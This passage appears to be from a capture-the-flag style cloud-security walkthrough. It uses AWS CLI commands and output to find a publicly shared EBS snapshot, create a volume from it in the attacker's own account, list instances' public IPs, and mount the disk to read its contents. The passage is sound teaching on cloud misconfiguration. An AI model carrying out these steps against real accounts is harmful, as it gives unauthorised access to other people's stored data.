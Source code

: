 Check the permissions of this snapshot:

```bash
~ aws ec2 describe-snapshot-attribute --snapshot-id snap-0b49342abd1bdcb89 --attribute createVolumePermission --profile level-3 --region us-west-2
{
    "SnapshotId": "snap-0b49342abd1bdcb89",
    "CreateVolumePermissions": [
        {
            "Group": "all"
        }
    ]
}
```

Looks like anyone can create a volume based on this snapshot. Let’s do that. 

<div class="box-note">
Note that for this to work, I had to set up <b>AmazonEC2FullAccess</b> permission for the user. Less permissive settings would have probably worked as well and would be recommended.
</div>

```bash
~ aws ec2 --profile liv-test create-volume --region us-west-2 --availability-zone us-west-2a --snapshot-id snap-0b49342abd1bdcb89
{
    "AvailabilityZone": "us-west-2a",
    "Tags": [],
    "Encrypted": false,
    "VolumeType": "gp2",
    "VolumeId": "vol-02443eed3b8bd99d7",
    "State": "creating",
    "Iops": 100,
    "SnapshotId": "snap-0b49342abd1bdcb89",
    "CreateTime": "2019-11-02T09:36:49.000Z",
    "Size": 8
}
```


We can *list public IP addresses of all EC2 instances* for a profile. This could be handy later:

```bash
~ aws ec2 describe-instances  --query "Reservations[*].Instances[*].PublicIpAddress" --output=text --profile level-3 --region us-west-2
35.165.182.7
```

Next mount the snapshot above in our own AWS account:
* Create a new Ubuntu instance
* Download the private SSH key
* In the storage options select the volume just created 
* Login to the instance. 

<div class="box-warning">
Tot avoid the <i><b>snapshotId can only be modified on EBS devices</b></i> error when attaching the volume, search by snapshot id (<b>snap-0b49342abd1bdcb89</b>) and use an available AWS recommended device name like /dev/sdf.  AWS recommended device names for attaching EBS volumes are/dev/sd[f-p].
</div>

